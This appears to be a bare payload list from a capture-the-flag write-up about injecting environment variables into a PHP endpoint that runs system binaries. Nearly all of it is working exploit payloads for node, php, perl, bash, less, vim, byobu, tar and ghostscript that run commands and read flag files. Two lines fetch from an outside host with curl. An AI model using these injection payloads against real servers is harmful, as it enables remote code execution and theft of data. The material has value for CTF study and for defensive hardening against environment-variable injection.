 payload：

```shell
/usr/bin/node
?file=/usr/bin/node
&p[]=NODE_OPTIONS=--require /proc/self/environ
&p[]=PHP_EXTRA_CONFIGURE_ARGS=console.log(require('child_process').execSync('cat /flag/f1444g').toString())

/usr/local/bin/php
?file=/usr/local/bin/php
&p[]=PHP_EXTRA_CONFIGURE_ARGS=1;%0dauto_prepend_file=/proc/self/environ;%0d<?php system("cat /flag/f1444g");?>
&p[]=PHPRC=/proc/self/environ

/usr/bin/perl
?file=/usr/bin/perl
&p[]=PERL5OPT=d
&p[]=PERL5DB=BEGIN{$f=`ls /flag`; print `cat /flag/$f`}

/bin/bash
?file=/bin/bash
&p[]=BASH_ENV=`curl p6.is`

/usr/bin/bashbug
?file=/usr/bin/bashbug
&p[]=DEFEDITOR=cat /flag/* >

/usr/bin/less
?file=/usr/bin/less
&p[]=LESSOPEN=curl p6.is
&p[]=LESS=-?/bin/ls

/usr/bin/vim
?file=/usr/bin/vim
&p[]=VIMINIT=exe "!/usr/bin/rgrep . /flag" | q!

/usr/bin/byobu-status-detail
?file=/usr/bin/byobu-status-detail
&p[]=PATH=/bin
&p[]=BYOBU_INCLUDED_LIBS=1
&p[]=BYOBU_PAGER=/bin/cat /flag/*

/usr/bin/byobu
?file=/usr/bin/byobu
&p[]=BYOBU_CONFIG_DIR=/var/www/html/
&p[]=BYOBU_RUN_DIR=/tmp
&p[]=BYOBU_INCLUDED_LIBS=1
&p[]=HOME=/var/cache/apache2/mod_cache_disk
&p[]=BYOBU_TEST=cd /; ls -al /home > /var/www/html/eyo 2>

/usr/bin/file
?file=/usr/bin/file
&p[]=MAGIC=/flag/::

/bin/tar
?file=/bin/tar
&p[]=TAPE=/dev/null
&p[]=TAR_OPTIONS=-x --use-compress-program="sh -c \"rgrep . /flag >&2\""

/usr/bin/gs
?file=/usr/bin/gs
&p[]=GS_DEVICE=bit
&p[]=GS_OPTIONS=@/flag/f1444g
```